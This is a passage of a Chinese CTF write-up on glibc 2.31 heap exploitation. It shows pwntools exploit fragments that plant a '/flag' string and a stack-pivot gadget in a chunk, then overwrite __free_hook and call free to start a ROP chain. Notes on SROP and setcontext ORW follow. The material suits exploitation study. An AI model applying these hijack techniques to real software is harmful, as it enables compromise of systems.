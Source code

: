 ```python
        1,
        pop_rax_ret,
        1,
        syscall_ret, # write
]))

```
#### 往分配出来的新chunk，即原先idx=6的chunk进行写
> 通过AIT+T寻找
> 不对，还有其他方法：搜索libc中的gadget（使用ropper）

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685600356905-2033730a-549c-4150-ba1a-605cd4b8b607.png#averageHue=%230d0503&clientId=u5b8e4ff9-0d4c-4&from=paste&height=65&id=u77a401e6&originHeight=108&originWidth=1139&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=9367&status=done&style=none&taskId=ueb0c043b-27eb-41c6-bc53-08ae3206e80&title=&width=690.3029904045919)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685602083502-9f9eae19-0228-4068-a991-b0421e68d069.png#averageHue=%23070a0a&clientId=u6bbf0b64-1d57-4&from=paste&height=105&id=u7d9c0a68&originHeight=174&originWidth=1357&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=88972&status=done&style=none&taskId=u56c9d807-bc69-4948-910d-4805245afaa&title=&width=822.4241948894041)
> 迷思：为什么还可以在原来的基础上编辑
> ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685605218609-621d3f5f-e7d5-417d-8e2e-ac107c6a93f0.png#averageHue=%23100d0b&clientId=u6bbf0b64-1d57-4&from=paste&height=287&id=u9b8fd8c7&originHeight=474&originWidth=1113&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=99553&status=done&style=none&taskId=u74624295-a4c3-49b8-9ade-1ffff2aa751&title=&width=674.5454155577795)
> 因为又一次创建了缓冲，所以可以在改缓冲上进行编辑，利用这个缓冲

```python
new(8,0xf0,flat({ #使用flat将多个序列生成单一序列
        0x00: 0x67616C662F, # /flag  #在偏移0x00处存入flag字段
        0x28: libc_base+0x00000000000578c8, #做栈迁移
        0x48: heap_base+0xfa0  #指chunk，rop
}, filler=b'\x00')) #最后有b'\x00' 填充剩余的位置
```
#### 修改free_hook内容
因为rdi是free时候的指针，而【rdi】就等于取chunk里面的内容进行操作了，这样就能完美劫持程序流程，进行rop
```python
new(9,0xf0,p64(libc_base+0x0000000000154dea)) # rbp=[rdi+0x48]; rax=[rbp+0x18]; call [rax+0x28]
```
#### 释放chunk8，即原先idx=6，就可以进行rop
```python
free(8)
```
### 最终的图解
> 补充一个点：栈迁移
> 完成两个点即可：
> - 修改ebp为目标的栈空间
> - leave ret为到目标的点，并执行下一条指令
> - 先找gadget，再进行栈排布
> 
还有，保护全开，记得能泄露就泄露出来

![67a587ef707b3c34e646f7d71140d50.jpg](https://cdn.nlark.com/yuque/0/2023/jpeg/29466846/1685606843897-142a4d1a-2a73-426c-9a60-371d731cb6ab.jpeg#averageHue=%2398958f&clientId=u6bbf0b64-1d57-4&from=paste&height=3232&id=ucb9b7252&originHeight=4000&originWidth=3000&originalType=binary&ratio=1.6500000953674316&rotation=90&showTitle=false&size=1634014&status=done&style=none&taskId=u4c062e7a-85d0-4635-b952-5c72069e9d7&title=&width=2424)
### 其他解法
这种是属于常见的劫持程序流程到堆上，核心都是控制rsp到堆
#### 通过SROP+ROP链
> 关键点：控制rdx，因为是2.31的版本
> 能用orw，那就用mov_rdx_rdi_配合setcontext函数进行orw读flag了
